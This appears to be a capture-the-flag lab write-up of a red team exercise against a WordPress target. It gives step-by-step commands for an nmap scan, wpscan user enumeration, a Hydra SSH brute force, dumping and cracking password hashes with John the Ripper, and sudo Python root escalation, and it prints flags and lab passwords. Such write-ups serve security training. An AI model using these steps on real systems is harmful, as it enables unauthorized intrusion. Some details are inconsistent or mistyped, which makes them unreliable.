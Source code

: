 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

The following services and OS data are revealed by the Nmap scan results for each machine:

$ nmap -A 192.168.1.0/24


This scan finds the following services as potential ports of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

On each target, the following vulnerabilities were discovered:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - There is no implementation of file security permission.
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was successful in breaching 'Target 1' and obtaining the following sensitive information:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan is being used to count the number of users on the Target 1 WordPress site.
       - wpscan --url http://192.168.1.110 --enumerate u
 
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael

    - Capturing Flag 1: As Michael, I went through directories and files following an SSH Brute Force Attack.
      - Flag1 was discovered in the var/www/html folder at the root in service.html in an HTML remark below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael

        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt

  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - MySQL was used to examine the database after discovering wp-config.php and getting access to the database credentials as Michael.
        - the wp-config.php displayed DB_Password in plaintext

        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;

  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by collecting user credentials from the database, running john the ripper to crack the password hash, then gaining root access using Python Escalation Privileges.
        - After gaining access to the database credentials as Michael through the sp-config.phpfile, the next step was to decrypt password hashes obtained from MySQL.
        - These user credentials are saved in the WordPress database's wp_users table.
        - The usernames and password hashes were recorded in a file named wp hashes.txt on the Kali computer.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;

        - When I exported the hashes, I stored them separately as stevenhash.txt and michaelhash.txt and cracked the hashes using John the Ripper.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of the john the ripper continued; however, we already knew the password from the prior action.

          - After cracking Steven's password hash, the next step was to SSH as Steven. Then, as Steven, use Python to check for privilege and escalate to root.
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt

